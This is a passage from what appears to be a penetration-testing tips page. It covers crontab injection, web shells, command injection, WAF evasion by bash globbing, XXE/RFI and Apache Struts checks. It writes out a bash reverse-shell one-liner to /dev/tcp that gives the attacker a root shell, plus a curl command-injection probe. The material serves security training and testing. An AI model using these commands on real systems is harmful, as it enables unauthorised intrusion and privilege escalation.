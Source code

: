     the injected string will end up in /etc/crontab will be executed.

    The contents of evilscript can be

    ```none
    /bin/bash -i >& /dev/tcp/IP/Port 0>&1
    ```

    which will provide the root shell to the attacker. Thanks to TheColonial :)

  - [phpbash](https://github.com/Arrexel/phpbash) is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible.

  - ps aux not fully visible try

    ```none
    echo "`ps aux --sort -rss`"
    ```

  - If there's a XXE on a website and possible RFI using internal address i.e on <http://127.0.0.1:80/home=RFI> rather than <http://10.54.98.10:80/home=RFI>, utilize XXE to send the request with localaddress.

  - If there's a possible command execution on a website such as

    ```none
    curl -A "bitvijays" -i "http://IPAddress/example?parameter='linux_command'"
    ```

    However, it is protected by a WAF, probably, try bash globbling techniques with ? and \*. Refer [Web Application Firewall (WAF) Evasion Techniques](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8) and [Web Application Firewall (WAF) Evasion Techniques #2](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0) ! Amazing stuff here! Also, it might be a good idea to test the command with ? on your local machine first then directly on the target. Also, sometimes, it adding a space before or after the linux_command might work like ' linux_command' or 'linux_command '

  - Similar to ls there is dir in linux. Try "dir -l" Might be helpful sometimes.

  - Sometimes, we don't have tools on the victim machine, in that case we can download static binaries from [Static-Binaries](https://github.com/andrew-d/static-binaries) If not, found, try the deb or rpm package of the binary, extract it and upload.

  - mysql can execute statements in one liner using --execute or -e option

    ```none
    mysql [options] db_name
    --user=user_name, -u user_name  : The MariaDB user name to use when connecting to the server.
    --password[=password], -p[password] : The password to use when connecting to the server. If you use the short option form (-p), you cannot have a space between the option and the password. If you omit the password value following the --password or -p option on the command line, mysql
           prompts for one.
    --execute=statement, -e statement : Execute the statement and quit. Disables --force and history file. The default output format is like that produced with --batch.
    ```

  - If there's .action file present in the URL on a Apache WebServer, [Apache Struts](https://svn.apache.org/repos/asf/struts/archive/trunk/struts-doc-1.1/api/org/apache/struts/action/package-summary.html) might be installed on it. Check for Apache Struts vulnerabilities on it.
